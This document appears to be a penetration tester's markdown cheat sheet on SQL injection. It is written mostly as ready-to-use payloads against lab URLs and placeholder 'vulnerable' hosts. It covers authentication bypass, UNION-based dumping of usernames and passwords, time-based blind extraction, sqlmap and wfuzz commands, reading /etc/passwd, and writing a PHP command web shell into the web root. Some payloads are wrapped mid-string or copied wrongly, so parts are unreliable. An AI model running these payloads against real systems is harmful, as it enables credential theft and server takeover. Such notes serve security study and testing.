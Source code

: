 # SQLi

## Classification of SQLi
- In-Band
- Out-Band
- Inferential

## SQLi Techniques
- Returning All Records
```
SELECT * FROM users WHERE username = ' ' OR 1 = 1 --'
```
- Bypassing authentication
```
$query = "SELECT * FROM users WHERE username = '$user-
name' AND password = '$password'";

SELECT * FROM users WHERE username = " OR '1'='1' -- ' AND
password = 'pass';
```
**Fuzzing**
```
wfuzz -c -z file,/usr/share/wfuzz/wordlist/Injections/
SQL.txt -d "username=FUZZ&password=ok&submit=Login"
http://127.0.0.1:8080/login.php
```

- SQLi Data Extraction Using UNION-Based
1. Both SELECT statement must returns the same number of columns
2. The data types in both SELECT should always be the same
```
no example
```

## SQLmap
```
sqlmap -u http://127.0.0.1/sqlilabs/Less-2/?id=1 –dbs
```

## Determining the Number of Columns and the type
```
http://127.0.0.1/sqlilabs/Less-2/?id=1+order+by+1--
http://127.0.0.1/sqlilabs/Less-2/?id=1+order+by+2--
http://127.0.0.1/sqlilabs/Less-2/?id=1+order+by+3--
http://127.0.0.1/sqlilabs/Less-2/?id=1+order+by+4--

http://127.0.0.1/sqlilabs/Less-2/?id=1+union+select+
null,null,null--
```

## Determining the vulnerable columns
Force an always false answer to identify witch column may be vulnerable.
```
http://127.0.0.1/sqlilabs/Less-2/?id=- 1 +union+select+1,2,3--

http://127.0.0.1/sqlilabs/Less-2/?id=and 1 = 0 union select 1,2,3--
http://127.0.0.1/sqlilabs/Less-2/?id=1 and 1 = 0 union select 1,2,3--
```

## Fingerprinting the Database
```
SELECT * FROM users WHERE id=-1 union select version(),database()– LIMIT 0,1;
```

#### Enumerate Tables from Database
```bash
# query
union+select+null, group_concat(table_name ),null+from+ information_schema.tables +where+table_schema='security'--

# payload
http://127.0.0.1/sqlilabs/Less-2/?id=-1+union+select+null, group_concat(table_name) ,null+from+ information_schema.tables +where+table_schema="security"
```

#### Enumerate Columns from tables
```bash
# query
Union select null,group_concat(column_name),null from information_schema.columns where table_name="security"--

# payload
http://127.0.0.1/sqlilabs/Less-2/?id=-1+union+select+null, group_concat(table_name) ,null+from+ information_schema.tables +where+ table_schema="security"
```

#### Extracting Data from columns
```bash
# Query
Union select null,group_concat(username,0x3a,password),
null from security--

# Payloads
http://127.0.0.1/sqlilabs/Less-2/?id=-1+union+select+
null,group_concat(username,0x3a,password),null+from+us
ers--
```

# SQLi to RCE
**Check privileges of the user**
```bash
http://127.0.0.1/search.php?search=tmgm'UN
ION+SELECT+ALL+1,2,group_concat(privilege_
type),4+FROM+INFORMATION_SCHEMA.USER_PRIVILEGES--+
```
FILE privilege allow user use LOAD_FILE() and "LOAD DATA INFILE"

## Read file
```bash
curl "http://127.0.0.1/search.php?search=tmgm'Union+SELECT+ALL+1,2,load_file('/etc/passwd'),4--+"
# string in hexadecimal
http://127.0.0.1/search.php?search=tmgm'Union+SELECT+
ALL+1,2,load_file(0x2f6574632f686f73746e616d65),4--+

'

# base64
http://127.0.0.1/search.php?search=tmgm'Union+SELECT
+ALL+1,2,To_base64(load_file(0x2f6574632f686f73746e6
16d65)),4--+
```

## Write file
```bash
UNION+SELECT+ALL+1,2,<?php system([\'cmd\']);?>,4 into
outfile "/var/www/html/shell.php"--+

# hexadecimal
http://127.0.0.1/search.php?search=tmgm'UNION+SELECT+AL
L+1,2,0x3c3f7068702073797374656d285b27636d64275d293b203
f3e,4+into+outfile+'/var/www/html/shell.php'--+
```

# Error-Based
Using suffiz and prefix
```bash
sqlmap -u vulnerable.com/index.php?id=1" --prefix "'))" --suffix "-- -" --dbms=mysql
```


# Booleand SQLi
```bash
http://vulnerablebak.com/index.php?users=all'+OR+1 = 1--+

http://vulnerablebak.com/index.php?users=all'+OR+
1 = 2--+
```

**Enumerating Database user**
```bash
'+OR+SUBSTRING(user(),1,1)='a';--+
```
With sqlmap
```bash
sqlmap -u "http://vunerablebank.com.com/admin.php?id=1"
--string="Welcome User"

sqlmap-u" http://vunerablebank.com.com/admin.php?id=1"
--string="Welcome,\x0aUser Name,\x0aLogout"
```

## Time-Based
```bash
IF(condition, true_statement, false_statement)

'OR IF(1 = 1, SLEEP(5), 0) -- -

time curl "http://127.0.0.1:8080/index.php?id=2"

time curl" http://127.0.0.1:8080/index.php?id='+OR+IF(1%3d1,+SLEEP(5),+0)%20--%20-
```

#### Enumerating Character length of Database Name
```bash
'OR IF(LENGTH((SELECT DATABASE())) = 4, SLEEP(5), 0) -- -
' OR IF(LENGTH((SELECT DATABASE())) = 5, SLEEP(5), 0) --
' OR IF(LENGTH((SELECT DATABASE())) = 6, SLEEP(5), 0) --
```
#### Enumerating Database Name
```bash
' OR IF(ASCII(SUBSTRING((SELECT DATABASE()), 1, 1)) =
ASCII('a'), SLEEP(5), 0) -- -

' OR IF(ASCII(SUBSTRING((SELECT DATABASE()), 1, 1)) =
ASCII('b'), SLEEP(5), 0) -- -

' OR IF(ASCII(SUBSTRING((SELECT DATABASE()), 1, 1)) =
ASCII('t'), SLEEP(5), 0) -- -

# checking the second character
' OR IF(ASCII(SUBSTRING((SELECT DATABASE()), 2, 1)) =
ASCII('b'), SLEEP(5), 0) -- -
```


# Second-Order SQLi
```bash
sqlmap -r sql.txt --second-url "http://localhost:8080/administrator/index.php" --dbs
```


# sqlmap tips
1. Use Verbose and debugging with the -v3!

## Using tamper scripts
#### JWT-Based SQL Injection
```
Check book for the example
```